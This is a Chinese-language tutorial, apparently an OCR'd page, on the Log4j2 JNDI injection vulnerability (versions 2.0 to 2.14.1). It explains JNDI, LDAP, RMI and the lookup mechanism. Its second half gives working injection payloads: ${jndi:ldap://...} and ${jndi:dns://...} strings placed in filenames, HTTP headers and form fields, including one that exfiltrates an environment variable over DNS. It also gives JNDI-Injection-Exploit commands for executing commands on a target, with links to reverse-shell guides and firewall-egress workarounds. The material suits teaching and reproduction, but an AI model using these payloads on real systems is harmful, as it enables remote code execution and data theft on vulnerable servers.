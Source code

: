 Log4j2 是 Apache 软件基金会下的一个开源的基于 Java 的日志记录工具。Log4j2 是一个 Log4j 1.x 的重写。并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。
由于其优异的性能而被广泛的应用于各种常见的 Web 服务中。

^
## **JNDI注入**
JNDI是对各种访问目录服务的逻辑进行了再封装。
JNDI提供了一个通用的接口，使得Java应用程序可以查找和访问各种不同类型的命名服务和目录服务，包括文件系统、配置文件、DNS、LDAP服务器、RMI服务器等。
^
JNDI注入主要是用过下载远程class，来运行恶意代码。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务，验证时也可以使用dns协议。
>LDAP（轻型目录访问协议）：是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问控制和维护分布式信息的目录信息。目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈树状结构组织数据，就好象Linux/Unix系统中的文件目录一样。
>RMI（远程方法调用）：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。
^
## **Log4j2漏洞原理**
在java中最常用的日志框架是log4j2和logback，其中log4j2支持lookup功能（查找搜索），例如开发者想在日志中打印今天的日期，则只需要输出 ${data:MM-dd-yy}，此时log4j会将${}中包裹的内容单独处理，将它识别为日期查找，然后将该表达式替换为今天的日期内容输出为"08-22-2022”，这样做就不需要开发者自己去编写查找日期的代码。然而lookup功能也允许在日志配置中引用远程JNDI资源，用来动态获取配置信息，比如从远程服务器获取信息字节流。
Log4j2 漏洞利用：攻击者使用 ${} 关键标识符触发 JNDI 注入漏洞，当程序将用户输入的数据进行日志记录时，即可触发此漏洞。此时攻击者构造一个特殊的JNDI URL，该URL指向一个远程服务器上的恶意LDAP服务。这个LDAP服务会返回一个恶意的类路径（类加载器链），最终导致远程服务器上的恶意类被加载和执行。
支持版本：2.0<=Log4j2<=2.14.1
^
## **漏洞利用和验证**
漏洞验证：
将用户名记录了日志中，
将用户的发言消息记录了日志中等
```
如：文件上传的名字记录日志
java代码：logger.info("获取图片原始文件名：{}”，originalFileName);
抓包把文件名改为：filename="${jndi:dns://***.dnslog.cn}"
成功获取DNSlog
获取java环境变量的操作系统OS：filename="${jndi:dns://${env:OS}.vmfp3r.dnslog.cn}"
```

对应的请求包中对应内容改为：
```
${jndi:ldap://183.145.120.145/Click1/Exec}  
//去请求一个LDAP服务器，域名的话也会请求DNS

${jndi:dns://***.dnslog.cn/exp}  
 //如果tcp不出网ldap失效，直接用dns协议(jndi支持dns://)去实现dnslog。


Accept-Language: zh-cN,zh;q=0.9
X-Api-Version: ${jndi:ldap://test.x****r.ceye.io/exp}
Content-Type: application/x-www-form-urlencoded
Content-Length:64
w-------------------+
username=admin${jndi : dns: //test.x****r.ceye.io/exp}
```
命令执行漏洞利用：
JNDI利用工具：LDAP服务器
工具使用方法参考<https://www.freebuf.com/vuls/337333.html>
实现：${jndi:ldap://127.0.0.1:1389/Basic/Command/你要执行的命令}

^
JNDI利用工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
jndi进行命令执行，反弹shell：<https://blog.csdn.net/m0_74294234/article/details/137188160>
支持同时启动ldap服务和rmi服务。
```
java8 -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc"

${jndi:rmi://192.168.1.8:1099/yfwrr7}
${jndi:ldap://192.168.1.8:2113/akndj}
```

^
**log4j2不出网：**
rmi和ladp都是走的tcp协议，如果有网络防火墙tcp不出网，还想利用，将其转成icmp协议出网再转回来。
验证则直接用dns协议(jndi支持dns://)去实现dnslog：${jndi:dns://***.dnslog.cn/exp} 。

^
复现：
<https://www.freebuf.com/articles/web/341857.html>